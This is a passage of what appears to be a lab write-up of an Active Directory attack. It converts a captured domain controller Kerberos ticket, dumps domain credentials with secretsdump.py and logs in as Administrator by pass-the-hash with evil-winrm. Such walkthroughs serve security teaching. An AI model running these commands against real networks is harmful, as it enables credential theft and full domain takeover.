

evil-winrm uses a network logon session (type 3), so using `.\buenavillage ptt /ticket:base64` wouldn't have worked, as it requires an interactive one (type 2 or type 10).

## Unconstrained Delegation: full DC compromise

I turned `DC01`'s Base64 ticket into a kirbi file, then converted it to ccache.

```
echo "doIFajCCBWagAwIBBaEDAg[OMITTED...]" | base64 -d > ticket.kirbi

ticketConverter.py ticket.kirbi ticket.ccache

export KRB5CCNAME=ticket.ccache
```


Then dumped the Domain Controller.

```
secretsdump.py -k -no-pass -just-dc 'lab.local/DC01$@dc01.lab.local'
```
```
[*] Cleaning up...
```

Fixed the Kerberos clock skew first, as it passed its 5-minute tolerance window.

```
ntpdate -u 10.0.0.10
2026-10-23 11:23:18.640571 (+0200) +538.523756 +/- 0.000339 10.0.0.10 s1 no-leap
CLOCK: time stepped by 538.523756
```
ntpdate output



`evil-winrm -i dc01.lab.local -u Administrator -H "e3b4f741358685bd322f48f8330cad9e"`


